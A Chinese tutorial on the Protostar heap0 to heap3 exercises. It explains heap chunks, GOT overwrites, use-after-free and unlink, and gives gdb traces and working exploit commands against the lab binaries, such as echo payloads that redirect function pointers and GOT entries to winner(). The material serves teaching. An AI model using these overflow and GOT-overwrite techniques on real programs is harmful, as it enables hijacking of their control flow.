# Protostar二进制靶场堆溢出题目原理及基础解析-先知社区

> **来源**: https://xz.aliyun.com/news/16925  
> **文章ID**: 16925

---

# 什么是堆

堆是动态内存分配的区域，程序在运行时用来分配内存。它与栈不同，栈用于静态分配内存，并且具有固定的大小

程序使用如malloc、calloc、realloc等函数在堆上动态分配内存。当内存不再需要时，使用free函数释放。例如：

```
int main(int argc, char **argv)
{
  struct data *d;
  d = malloc(sizeof(struct data));
}
```

通过malloc函数分配的堆地址：



接下来就用实战来讲解堆的运作机制

# heap 0



```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>

struct data {  #定义了一个名为data的结构体
  char name[64];  #包含一个64字节大小的字符数组name
};

struct fp {  #定义了一个名为fp的结构体
  int (*fp)();  #包含了一个函数指针fp
};

void winner()  #自定义函数winner
{
  printf("level passed
");  #输出level passed
}

void nowinner()  #自定义函数nowinner
{
  printf("level has not been passed
");  #输出level has not been passed
}

int main(int argc, char **argv)  #主函数，从命令行获取参数
{
  struct data *d;  #声明了一个指向 struct data 类型结构体的指针 d
  struct fp *f;  #声明了一个指向 struct fp 类型结构体的指针 f

  d = malloc(sizeof(struct data));   #给data结构体分配内存
  f = malloc(sizeof(struct fp));  #给fp结构体分配内存
  f->fp = nowinner;  #fp结构体中的函数指针初始化为指向nowinner函数

  printf("data is at %p, fp is at %p
", d, f);  #输出data和fp结构体的内存地址

  strcpy(d->name, argv[1]);  #strcpy函数将命令行提供的第一个参数，复制到data结构体的name数组中
  
  f->fp();  #调用函数指针指向的函数nowinner

}
```

漏洞发生在strcpy函数处，strcpy函数不会检查目标缓冲区的大小，如果我们提供的参数超过64字节，它将导致缓冲区溢出，如果发生了缓冲区溢出，并且覆盖了f->fp的值，那么可以使它指向winner函数，调用winner函数

我们先在第一个malloc函数调用的地方下一个断点，然后执行到断点处，来看看堆是怎么运行的



现在停在了malloc函数处，还没有执行该指令，可以看到程序空间里是没有堆的



输入n执行malloc函数，再次查看程序空间



可以看到，多出了一个heap空间，也就是堆，地址是0x804a000-0x806b000，我们查看这个堆空间里的数据



现在堆里只有两个数据，0x49-1，0x48是第一个mallco函数给我们分配的空间大小，为什么要减一呢，因为在这个堆中保存数据是，为了区分是否是空闲区域，都会在表示大小的值后面加一个1，+1了就说明当前空间已经被存放了数据，那这里为什么后面存放的数据都是0呢，是因为这个程序是从命令行参数里获取值然后保存的，我们运行程序时没有输入参数，所以这里都是0




name函数大小设置的是64字节，为什么程序给我们分配了72字节的空间，其实是这样算的



程序还将前面保留的四个字节空闲空间和本身表示大小的空间算进去了

而最后的0x20fb9，表示空余堆空间的大小，我们在程序执行strcpy函数的地方下一个断点，这个地方是程序将我们输入的值存入堆里的地方



我们重新运行程序，输入A，执行strcpy函数的指令，再在查看栈空间





程序已经将我们输入的8个A的十六进制值放入了堆，并且下面还有第二个mallco函数的空间



而这个0x8048478则是nowinner函数地址



前面说过，strcpy函数不会检查目标缓冲区的大小，如果我们提供的参数超过64字节，它将导致缓冲区溢出，如果发生了缓冲区溢出，并且覆盖了f->fp的值，那么可以使它指向winner函数，调用winner函数，我们输入76个字符就能完整覆盖nowinner函数地址，控制程序跳转的地址

```
python -c "print('A'*72 + 'B'*4)"
```


重新打开gdb，然后运行



这里程序提示跳转到了0x42424242的地址，也就是我们输入的BBBB，这时我们查看堆空间



我们已经将nowinner函数地址给覆盖了



我们将BBBB改为winner函数地址，就成功破解了程序



我们可以使用echo工具来输入不可见字符

```
./heap0 "`/bin/echo -ne "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x64\x84\x04\x08"`"
```





成功跳转到winner函数

# heap 1

## 程序静态分析

```
https://exploit.education/protostar/heap-one/
```



```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>

struct internet {  #定义了一个名为 internet 的结构体
  int priority;  #定义了一个int 类型的 priority函数
  char *name;  #定义了一个 char 指针 name 函数
};

void winner()  #winner函数
{
  printf("and we have a winner @ %d
", time(NULL));  #输出and we have a winner @ %d
", time(NULL)
}

int main(int argc, char **argv)  #主函数，参数是从命令行里获取的
{
  struct internet *i1, *i2, *i3;  #声明了三个指针变量，i1、i2和i3，它们都是指向struct internet类型的结构体的指针

  i1 = malloc(sizeof(struct internet));  #为 internet 结构体分配内存
  i1->priority = 1;  #访问 i1 指向的结构体中的 priority，赋予1值
  i1->name = malloc(8);  #分配8个字节的内存

  i2 = malloc(sizeof(struct internet));   #为 internet 结构体分配内存
  i2->priority = 2;  #访问 i1 指向的结构体中的 priority，赋予2值
  i2->name = malloc(8);  #分配8个字节的内存

  strcpy(i1->name, argv[1]);  #将第一个命令行参数复制到 i1
  strcpy(i2->name, argv[2]);  #将第二个命令行参数复制到 i2

  printf("and that's a wrap folks!
");  输出and that's a wrap folks!
}
```

主函数的分配指针看着有些复杂，我们实际调试一下就能理解了

## 程序动态分析

使用gdb打开程序，在第一个malloc函数处下一个断点





我们要输入两个命令行参数才能运行程序





现在停在了这里，我们可以输入n执行malloc函数，为 internet 结构体分配内存，i1 和 i2 是指向这些结构体的指针




现在程序给我们分配了一个堆，地址是0x804a000-0x806b000，现在可以查看堆空间里的内容



现在堆里只有两个数据，0x11-1，0x10是第一个mallco函数给我们分配的空间大小，为什么要减一呢，因为在这个堆中保存数据是，为了区分是否是空闲区域，都会在表示大小的值后面加一个1，+1了就说明当前空间已经被存放了数据，那这里为什么后面存放的数据都是0呢，是因为这个程序是从命令行参数里获取值然后保存的，我们运行程序时没有输入参数，所以这里都是0

而最后的0x20ff1，表示空余的堆空间的大小

输入n，执行下一个指令，然后查看堆空间





这里按照程序 i1->priority = 1; 访问 i1 指向的结构体中的 priority，赋予1值



输入n，执行下一个指令





程序给我们分配8个字节的内存，0x0804a018是之后存放这8个字节的堆地址，前面标记的整数可以很方便帮助我们计算，所以第18的地址是图中圈起来的，程序会将我们输入的值，放入这里


输入n，执行第二个分配堆空间的操作





操作逻辑是和第一个一样的，0x0804a038地址也是我们第二个参数存放的地址，也就是图片上圈起来的地方



现在我们将输入的内容放入堆中





了解了这个程序的运作机制，现在我们可以想想怎么破解程序了

漏洞点还是出在strcpy函数身上，strcpy函数不会检查目标缓冲区的大小，很容易导致缓冲区溢出，我们可以覆盖掉第二个参数的写入地址0x0804a038，那么程序就可以在任意地址写入我们指定的值

## 什么是plt表与got表

这里举一个例子，我们用file工具查看文件信息可以发现



他是动态链接库的，意思是从libc里调用的函数



比如这里的gets函数，他不是二进制文件本身里面自带的，而从本机上的libc库中调用的，这样就能缩小文件体积

而plt表的作用是当程序需要调用一个外部函数时，它首先跳转到PLT表中寻找该函数对应的入口，PLT入口包含跳转指令，然后跳转到GOT表中的相应地址，GOT中的地址会指向解析函数，之后解析函数将实际的函数地址写入GOT表，以便后续直接跳转调用函数

实际操作一下就理解了



这里puts函数的plt表地址是0x80483cc，我们可以查看这个地址



然后跳转到了got表的地址，调用puts函数



这里我们可以覆盖掉printf函数got表地址，让程序执行printf函数时跳转到winner函数地址



## pwn

覆盖第二个malloc写入字符的地址，所需要的垃圾字符数

```
python -c "print('A'*20)"
```

我们可以使用echo工具来输入不可见字符，printf函数的got表地址0x8049774



这里gdb将printf函数解析成了puts函数，第一个参数确定了，我们还需要winner函数的地址



```
./heap1 "`/bin/echo -ne "AAAAAAAAAAAAAAAAAAAA\x74\x97\x04\x08"`" "`/bin/echo -ne "\x94\x84\x04\x08"`"
```


成功跳转到winner函数，这里我们也可以使用gdb查看堆空间





原本的0x0804a038被我们改成了printf函数got表的地址，之后我们输入的第二个参数就会覆盖掉printf函数got表原本的地址，变成winner函数地址，当程序调用prinf函数时，就会跳转到winner函数

堆是一个很难的部分，为了方便入门，这篇文章只是简单的介绍了一些堆的运作机制，之后的文章再慢慢介绍其他的机制

# heap2

## 程序静态分析

```
https://exploit.education/protostar/heap-two/
```



```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

struct auth {  #定义了一个名为 auth 的结构体
  char name[32];  #定义了一个名叫name的变量，能存储32字节数据
  int auth;  #定义了一个整数变量auth
};

struct auth *auth;  #auth 指针用来指向 struct auth 类型的对象
char *service;  #定义了一个service指针

int main(int argc, char **argv)  #主函数
{
  char line[128];  #定义了一个名叫line的变量，能存储128字节数据

  while(1) {  #一个无限循环
    printf("[ auth = %p, service = %p ]
", auth, service);  #输出auth 和 service 指针的当前值

    if(fgets(line, sizeof(line), stdin) == NULL) break;  #获取我们输入，如果读取失败就会退出
    
    if(strncmp(line, "auth ", 5) == 0) {  #如果输入auth，进入if语句 
      auth = malloc(sizeof(auth));  #给auth 结构体分配内存
      memset(auth, 0, sizeof(auth));  #将内存初始化为零
      if(strlen(line + 5) < 31) {  #line + 5（即 "auth " 后面的字符串）的长度小于31字符
        strcpy(auth->name, line + 5);  #它将被复制到 auth 结构体的 name 字段
      }
    }
    if(strncmp(line, "reset", 5) == 0) {  #如果输入是 "reset"
      free(auth);  #释放掉auth结构体的内存
    }
    if(strncmp(line, "service", 6) == 0) {  #如果输入以 "service" 开头
      service = strdup(line + 7);  #程序将使用 strdup 函数复制 "service" 后面的字符串，并将 service 指针指向这个新分配的副本
    }
    if(strncmp(line, "login", 5) == 0) {  #如果输入是 "login"
      if(auth->auth) {  #程序将检查 auth 结构体的 auth 字段
        printf("you have logged in already!
");  #如果 auth 字段非零，程序会打印一条消息表示用户已经登录
      } else {
        printf("please enter your password
");  #否则，程序提示用户输入密码
      }
    }
  }
}
```

## 什么是use-after-free漏洞？

Use-After-Free（UAF）漏洞是一种内存安全漏洞，发生在程序释放了一块内存之后再次错误地使用（访问或操作）这块内存的情况。这种漏洞通常出现在动态内存管理的环境中，尤其是在使用手动内存管理（如C和C++语言）的程序中较为常见。UAF漏洞可能导致程序行为异常、数据损坏、信息泄露，甚至允许攻击者执行任意代码。

### UAF漏洞发生的条件

内存释放：程序通过某种机制（例如C语言的free()函数）释放了一块动态分配的内存。错误重用：在该内存被释放后，程序中的某个部分尝试再次访问或使用这块已释放的内存。内存再分配：操作系统或内存管理器可能将已释放的内存块重新分配给其他请求，导致原先的引用变得不可预测或危险。

### 演示

```
char *buffer = malloc(100); // 分配100字节的内存
strcpy(buffer, "sensitive data"); // 将敏感数据复制到分配的内存中
free(buffer); // 释放内存

// ... 程序的其他部分

// 错误地重新使用了已释放的内存
printf("%s", buffer); // 尝试打印已释放内存中的数据
```

在这个例子中，buffer指针首先指向了一块分配的内存，存储了一些敏感数据。随后，这块内存被释放，理应不再被访问。然而，程序后面的部分错误地尝试访问这块已经释放的内存，试图打印它的内容。这个操作可能导致未定义行为，包括打印出随机数据、导致程序崩溃或更糟糕的情况

## 程序动态调试

这是一个类似于登陆程序的程序，我们可以先看看程序的参数，运行程序，随便往堆里存放一些数据，然后登陆



图中可以看到auth结构体的堆地址是0x804c008，由于程序检查auth结构体指针的auth成员的值。这个成员是一个整型（int），用来表示用户是否已经认证：非零值表示已认证，零值表示未认证。如果auth->auth的值为非零（即用户已经通过认证），则输出用户以登陆



这个程序存在use-after-free漏洞，我们在输入reset释放auth结构体内存时，指针并为重置为0，这个auth结构体的指针还是指向0X804c008




输入service参数会执行strdup函数，简单来说，这个函数的作用是复制字符串，然后会自动调用mallco函数来分配内存空间，并返回指向这个新分配内存的指针，也可以使用free函数释放调内存


随便输入一些值，可以看见service的指针指向了0x804c008



为什么service的指针和auth的指针指向的是同一个地址呢？聪明的同学可能已经知道了，我们上一个步骤是执行了reset参数，释放了auth结构体的空间，现在又执行了service参数，上面说过，输入service参数会执行strdup函数，简单来说，这个函数的作用是复制字符串，然后会自动调用mallco函数来分配内存空间，并返回指向这个新分配内存的指针，也可以使用free函数释放调内存

由于释放了auth结构体的空间，程序给我们分配空间时，使用了这个空闲的空间，现在auth和service就指向了同一个地址，这就是use-after-free漏洞，漏洞点就发生在这

假设现在有一个内存空间A，空间A是由root用户创建的，可以以最高权限执行命令，现在空间A被free掉了，被程序标记为空闲空间，现在user用户要创建一个内存空间，由于A空间被标记为空闲空间，所以程序会把A空间分配给user用户，我们就可以用user用户操作root用户的空间，执行越权的操作，这就是UAF（use-after-free）漏洞

现在我们用gdb调试程序，用auth参数执行一次分配内存空间的操作



ctrl+c中断程序，然后查看程序映射的堆空间

```
info proc mappings
```



可以看到，堆空间为0x804c000-0x804d000，现在我们查看堆空间的内容



我们也可以使用print参数详细显示存放的内容


现在可以看到我们输入的字符串A，和后面的身份验证，auth = 0

我们在printf函数处下一个断点，然后用commands参数在每一步操作停下来后，自动的运行我们设置的命令，可以更方便的展示堆空间的操作





```
>echo -----------------------------------------------

>x/20wx 0x804c000
>echo auth-------------------------------------------

>print *auth
>echo service----------------------------------------

>print *service
>echo -----------------------------------------------

>continue
>end
```

运行程序，使用auth参数来分配第一个堆空间







现在又有一个新问题，为什么auth只有8个字节的空间，不应该是32个字节+4字节整数=36字节空间吗？



这是因为结构体为auth，整数也叫auth，而结构体auth的指针又叫auth，程序计算auth的大小时，计算的是auth变量的大小，而不是struct auth的大小



因此，auth被分配到的空间只有4字节大小，malloc函数会将其对齐到8字节

现在来看看free函数是怎么运行的，输入reset



可以看到，我们之前写入的字符串都被清空了，但是auth指针依然存在



现在我们用service参数写入一些字符串



可以看到，auth的值也变成了AAA

身份验证（int auth）的地址是第32个字节后的四个字节




也就是图中选中的地方，刚好分配三次service的空间就能覆盖，刚刚我们以及执行了一次，现在我们再执行两次service





现在身份验证的值变成了CCC，已经不为0了，现在我们输入login即可



成功登陆

我们也可以直接用service参数输入36个A来覆盖身份验证的地址

重新运行程序






# heap3

## 程序静态分析

```
https://exploit.education/protostar/heap-three/
```



```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

void winner()  #定义了一个名为winner的函数
{
  printf("that wasn't too bad now, was it? @ %d
", time(NULL));  #输出字符串
}

int main(int argc, char **argv)  #主函数，从终端接收输入
{
  char *a, *b, *c;  #声明了三个字符指针 a、b 和 c，用于指向后面通过 malloc 分配的内存

  a = malloc(32);  #给a分配了32字节的内存
  b = malloc(32);  #给b分配了32字节的内存
  c = malloc(32);  #给c分配了32字节的内存

  strcpy(a, argv[1]);  #将命令行参数argv[1] 复制到先前分配的内存中
  strcpy(b, argv[2]);  #将命令行参数argv[2] 复制到先前分配的内存中
  strcpy(c, argv[3]);  #将命令行参数argv[3] 复制到先前分配的内存中

  free(c);  #释放分配给 c 的内存
  free(b);  #释放分配给 b 的内存
  free(a);  #释放分配给 a 的内存

  printf("dynamite failed?
");  #输出字符串
}
```

程序不复杂，但是想弄懂漏洞的机制还是很复杂的

# 堆的结构

在malloc.c 源代码中，malloc\_chunk 是这样定义的：

```
struct malloc_chunk {
  INTERNAL_SIZE_T      prev_size;
  INTERNAL_SIZE_T      size;

  struct malloc_chunk* fd;
  struct malloc_chunk* bk;
};
```

malloc 以块（chunk）为单位分配内存，其结构如下：



chunk start：这是内存块的起始地址。在分配内存时，内存管理器会返回指向这个位置之后的一个指针，具体是mem字段。

prev\_size：前一个块（previous chunk）的大小。前一个块是空闲的时候，这个字段才有意义，因为它会被用于合并空闲块。

size：当前块的大小，包括所有的元数据和数据区。这个大小通常包括一些标志位，比如当前块是否被分配或者前一个块是否为空闲。

fd (forward pointer)：在空闲块（free chunk）中使用，指向双向空闲列表中的下一个空闲块。这是双向链表的一部分，用于快速查找和合并空闲内存。

bk (backward pointer)：同样在空闲块中使用，指向双向空闲列表中的上一个空闲块。与 fd 一起，这些指针管理空闲内存，使得空闲内存的合并和重新分配更加高效。

data：这是实际分配给用户的内存区域。当程序请求内存时，内存分配器会提供一个指向这部分的指针。

mem：这通常是指向data区域的指针，也是程序实际使用的内存块的起始地址。注意：这个指针通常会按照某种对齐方式进行调整，确保性能最优。

next chunk start：这是下一个内存块的起始地址。内存分配器会使用当前块的size来找到下一个块的起始位置。

# 程序动态分析

用gdb打开程序，在调用mallco，strcpy，free函数的地方下一个断点

```
user@protostar:/opt/protostar/bin$ gdb heap3
GNU gdb (GDB) 7.0.1-debian
Copyright (C) 2009 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i486-linux-gnu".
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>...
Reading symbols from /opt/protostar/bin/heap3...done.
(gdb) disassemble main
Dump of assembler code for function main:
0x08048889 <main+0>:    push   %ebp
0x0804888a <main+1>:    mov    %esp,%ebp
0x0804888c <main+3>:    and    $0xfffffff0,%esp
0x0804888f <main+6>:    sub    $0x20,%esp
0x08048892 <main+9>:    movl   $0x20,(%esp)
0x08048899 <main+16>:   call   0x8048ff2 <malloc>
0x0804889e <main+21>:   mov    %eax,0x14(%esp)
0x080488a2 <main+25>:   movl   $0x20,(%esp)
0x080488a9 <main+32>:   call   0x8048ff2 <malloc>
0x080488ae <main+37>:   mov    %eax,0x18(%esp)
0x080488b2 <main+41>:   movl   $0x20,(%esp)
0x080488b9 <main+48>:   call   0x8048ff2 <malloc>
0x080488be <main+53>:   mov    %eax,0x1c(%esp)
0x080488c2 <main+57>:   mov    0xc(%ebp),%eax
0x080488c5 <main+60>:   add    $0x4,%eax
0x080488c8 <main+63>:   mov    (%eax),%eax
0x080488ca <main+65>:   mov    %eax,0x4(%esp)
0x080488ce <main+69>:   mov    0x14(%esp),%eax
0x080488d2 <main+73>:   mov    %eax,(%esp)
0x080488d5 <main+76>:   call   0x8048750 <strcpy@plt>
0x080488da <main+81>:   mov    0xc(%ebp),%eax
0x080488dd <main+84>:   add    $0x8,%eax
0x080488e0 <main+87>:   mov    (%eax),%eax
0x080488e2 <main+89>:   mov    %eax,0x4(%esp)
0x080488e6 <main+93>:   mov    0x18(%esp),%eax
0x080488ea <main+97>:   mov    %eax,(%esp)
0x080488ed <main+100>:  call   0x8048750 <strcpy@plt>
0x080488f2 <main+105>:  mov    0xc(%ebp),%eax
0x080488f5 <main+108>:  add    $0xc,%eax
0x080488f8 <main+111>:  mov    (%eax),%eax
0x080488fa <main+113>:  mov    %eax,0x4(%esp)
0x080488fe <main+117>:  mov    0x1c(%esp),%eax
0x08048902 <main+121>:  mov    %eax,(%esp)
0x08048905 <main+124>:  call   0x8048750 <strcpy@plt>
0x0804890a <main+129>:  mov    0x1c(%esp),%eax
0x0804890e <main+133>:  mov    %eax,(%esp)
0x08048911 <main+136>:  call   0x8049824 <free>
0x08048916 <main+141>:  mov    0x18(%esp),%eax
0x0804891a <main+145>:  mov    %eax,(%esp)
0x0804891d <main+148>:  call   0x8049824 <free>
0x08048922 <main+153>:  mov    0x14(%esp),%eax
0x08048926 <main+157>:  mov    %eax,(%esp)
0x08048929 <main+160>:  call   0x8049824 <free>
0x0804892e <main+165>:  movl   $0x804ac27,(%esp)
0x08048935 <main+172>:  call   0x8048790 <puts@plt>
0x0804893a <main+177>:  leave  
0x0804893b <main+178>:  ret    
End of assembler dump.
```

```
(gdb) b *0x0804889e
Breakpoint 1 at 0x804889e: file heap3/heap3.c, line 16.
(gdb) b *0x080488ae
Breakpoint 2 at 0x80488ae: file heap3/heap3.c, line 17.
(gdb) b *0x080488be
Breakpoint 3 at 0x80488be: file heap3/heap3.c, line 18.
(gdb) b *0x080488da
Breakpoint 4 at 0x80488da: file heap3/heap3.c, line 21.
(gdb) b *0x080488f2
Breakpoint 5 at 0x80488f2: file heap3/heap3.c, line 22.
(gdb) b *0x0804890a
Breakpoint 6 at 0x804890a: file heap3/heap3.c, line 24.
(gdb) b *0x08048916
Breakpoint 7 at 0x8048916: file heap3/heap3.c, line 25.
(gdb) b *0x08048922
Breakpoint 8 at 0x8048922: file heap3/heap3.c, line 26.
(gdb) b *0x0804892e
Breakpoint 9 at 0x804892e: file heap3/heap3.c, line 28.
```

运行程序，查看堆的地址

```
(gdb) r AAAAAAAA BBBBBBBB CCCCCCCC
Starting program: /opt/protostar/bin/heap3 AAAAAAAA BBBBBBBB CCCCCCCC

Breakpoint 1, 0x0804889e in main (argc=4, argv=0xbffff744) at heap3/heap3.c:16
16      heap3/heap3.c: No such file or directory.
        in heap3/heap3.c
(gdb) info proc mappings
process 2452
cmdline = '/opt/protostar/bin/heap3'
cwd = '/opt/protostar/bin'
exe = '/opt/protostar/bin/heap3'
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x804b000     0x3000          0        /opt/protostar/bin/heap3
         0x804b000  0x804c000     0x1000     0x3000        /opt/protostar/bin/heap3
         0x804c000  0x804d000     0x1000          0           [heap]
        0xb7e96000 0xb7e97000     0x1000          0        
        0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
        0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
        0xb7fd9000 0xb7fdc000     0x3000          0        
        0xb7fe0000 0xb7fe2000     0x2000          0        
        0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
        0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
        0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
        0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
        0xbffeb000 0xc0000000    0x15000          0           [stack]
```



堆的地址为0x804c000-0x804d000，查看堆

```
(gdb) x/40x 0x804c000
0x804c000:      0x00000000      0x00000029      0x00000000      0x00000000
0x804c010:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c020:      0x00000000      0x00000000      0x00000000      0x00000fd9
0x804c030:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c040:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c050:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c060:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c070:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c080:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c090:      0x00000000      0x00000000      0x00000000      0x00000000
```



堆的突出显示部分是第一个分配的块。我们可以看到prev\_size为0，size为0x28+1（40字节，最低有效位+1表示块正在使用），然后是分配内存的32字节。

现在执行了第一次内存分配


然后用define hook-stop参数在每一步操作停下来后，自动的运行我们设置的命令，可以更方便的展示堆空间的操作

```
(gdb) define hook-stop
Type commands for when breakpoint 9 is hit, one per line.
End with a line saying just "end".
>x/i $eip
>x/40x 0x804c000
>end
```

输入c执行完内存分配操作

```
(gdb) c
Continuing.
0x80488be <main+53>:    mov    %eax,0x1c(%esp)
0x804c000:      0x00000000      0x00000029      0x00000000      0x00000000
0x804c010:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c020:      0x00000000      0x00000000      0x00000000      0x00000029
0x804c030:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c040:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c050:      0x00000000      0x00000029      0x00000000      0x00000000
0x804c060:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c070:      0x00000000      0x00000000      0x00000000      0x00000f89
0x804c080:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c090:      0x00000000      0x00000000      0x00000000      0x00000000

Breakpoint 3, 0x080488be in main (argc=4, argv=0xbffff744) at heap3/heap3.c:18
18      in heap3/heap3.c
```

现在已经完成了a,b,c的内存分配，继续下一步操作，strcpy会将我们输入的字符串放入堆中



```
(gdb) c
Continuing.
0x80488da <main+81>:    mov    0xc(%ebp),%eax
0x804c000:      0x00000000      0x00000029      0x41414141      0x41414141
0x804c010:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c020:      0x00000000      0x00000000      0x00000000      0x00000029
0x804c030:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c040:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c050:      0x00000000      0x00000029      0x00000000      0x00000000
0x804c060:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c070:      0x00000000      0x00000000      0x00000000      0x00000f89
0x804c080:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c090:      0x00000000      0x00000000      0x00000000      0x00000000

Breakpoint 4, main (argc=4, argv=0xbffff744) at heap3/heap3.c:21
21      in heap3/heap3.c
```

```
(gdb) c
Continuing.
0x80488f2 <main+105>:   mov    0xc(%ebp),%eax
0x804c000:      0x00000000      0x00000029      0x41414141      0x41414141
0x804c010:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c020:      0x00000000      0x00000000      0x00000000      0x00000029
0x804c030:      0x42424242      0x42424242      0x00000000      0x00000000
0x804c040:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c050:      0x00000000      0x00000029      0x00000000      0x00000000
0x804c060:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c070:      0x00000000      0x00000000      0x00000000      0x00000f89
0x804c080:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c090:      0x00000000      0x00000000      0x00000000      0x00000000

Breakpoint 5, main (argc=4, argv=0xbffff744) at heap3/heap3.c:22
22      in heap3/heap3.c
```

```
(gdb) c
Continuing.
0x804890a <main+129>:   mov    0x1c(%esp),%eax
0x804c000:      0x00000000      0x00000029      0x41414141      0x41414141
0x804c010:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c020:      0x00000000      0x00000000      0x00000000      0x00000029
0x804c030:      0x42424242      0x42424242      0x00000000      0x00000000
0x804c040:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c050:      0x00000000      0x00000029      0x43434343      0x43434343
0x804c060:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c070:      0x00000000      0x00000000      0x00000000      0x00000f89
0x804c080:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c090:      0x00000000      0x00000000      0x00000000      0x00000000

Breakpoint 6, main (argc=4, argv=0xbffff744) at heap3/heap3.c:24
24      in heap3/heap3.c
```

输入的字符串已经到了指定的位置，现在就来执行最关键的free操作了，执行完这三个free操作后查看堆



```
gdb) c
Continuing.
0x804892e <main+165>:   movl   $0x804ac27,(%esp)
0x804c000:      0x00000000      0x00000029      0x0804c028      0x41414141
0x804c010:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c020:      0x00000000      0x00000000      0x00000000      0x00000029
0x804c030:      0x0804c050      0x42424242      0x00000000      0x00000000
0x804c040:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c050:      0x00000000      0x00000029      0x00000000      0x43434343
0x804c060:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c070:      0x00000000      0x00000000      0x00000000      0x00000f89
0x804c080:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c090:      0x00000000      0x00000000      0x00000000      0x00000000

Breakpoint 9, main (argc=4, argv=0xbffff744) at heap3/heap3.c:28
28      in heap3/heap3.c
```



现在我们看到了一些意想不到的东西。首先，所有data块中的 prev\_size 仍然为 0，但它应该包含前一个data块的大小。其次，虽然 fd 正确指向了下一个空闲块（第一个数据块的地址是 0x0804c028，也就是第二个数据块的地址），但 bk 也没有被设置，还显示的是我们输入的字符串。此外，size字段的最小有效位也没有被设置，这到底是怎么回事？

## Fastbins

在堆内存管理中，尤其是在GNU C库（glibc）的ptmalloc分配器中，Fastbins 是一种特殊类型的free列表（free list），用于优化小块内存的分配和回收。Fastbins 是针对大小固定且经常被分配和释放的小对象设计的，旨在减少对小对象频繁操作时的性能开销

之所以没有按照我们预期的方式运行，是因为分配的缓冲区很小。当块小于 64 字节时（默认情况下），malloc 将使用简化的数据结构（fastbin），并忽略 prev\_size、bk 和size位。

## free

当调用 free 时，如果被释放的数据块旁边有空闲的数据块，free 会将它们合并成一个更大的空闲数据块。空闲块存储在一个双链列表中（暂时忽略 fastbin 块），在合并时，free 会从列表中移除被合并的相邻空闲块，因为它将成为新的、更大的空闲块的一部分

## unlink

在堆内存管理中，特别是在如ptmalloc（glibc使用的内存分配器）这样的分配器中，unlink操作是指从双向链表中移除一个空闲内存块的过程。这个操作通常在内存回收或内存块合并时发生。

在ptmalloc中，空闲的内存块（也称为"chunk"）通常以双向链表的形式被管理。每个空闲块都有两个指针：

fd（forward pointer）：指向链表中下一个空闲块的指针。bk（backward pointer）：指向链表中前一个空闲块的指针。

unlink的源代码如下：

```
#define unlink(P, BK, FD) { \
  FD = P->fd;               \
  BK = P->bk;               \
  FD->bk = BK;              \
  BK->fd = FD;              \
}
```

调用时，第一个参数 P 是要unlink的数据块，参数 BK 和 FD 是用于存储上一个和下一个空闲数据块指针的临时变量。当一个数据块被解除链接时，下一个空闲数据块 P->fd 和上一个空闲数据块 P->bk 会相互指向。

如下图：



P (free chunk)：这是当前被“unlink”（即解除链接）的空闲内存块。它在双向空闲链表中，并且包含了fd（forward pointer，指向下一个块）和bk（backward pointer，指向前一个块）。

BK (previous free chunk)：这是P之前的空闲内存块，它的fd指针指向P。

FD (next free chunk)：这是P之后的空闲内存块，它的bk指针指向P。

### Unlink操作

当从链表中移除P时，需要进行以下步骤：

调整BK的fd指针：BK块的fd指针需要更新为P的fd指针所指向的块，这就是FD。这样，BK将直接指向FD，跳过了P。

调整FD的bk指针：同时，FD块的bk指针需要更新为P的bk指针所指向的块，也就是BK。这样，FD将直接指向BK，跳过了P。

